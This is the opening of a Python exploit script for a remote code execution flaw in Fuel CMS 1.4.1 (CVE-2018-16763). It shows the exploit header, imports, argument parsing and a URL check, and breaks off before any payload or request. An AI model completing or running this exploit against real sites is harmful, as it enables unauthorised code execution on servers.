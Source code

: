 
Python script:

# Exploit Title: Fuel CMS 1.4.1 - Remote Code Execution (3)
# Exploit Author: Padsala Trushal
# Date: 2021-11-03
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

#!/usr/bin/python3

import requests
from urllib.parse import quote
import argparse
import sys
from colorama import Fore, Style

def get_arguments():
	parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[0]} -u <url>',epilog=f'EXAMPLE - python3 {sys.argv[0]} -u http://10.10.21.74')

	parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

	parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

	args = parser.parse_args()

	if len(sys.argv) <=2:
		parser.print_usage()
		sys.exit()

	return args


args = get_arguments()
url = args.url

if "http" not in url:
	sys.stderr.write("Enter vaild url")
	sys.exit()
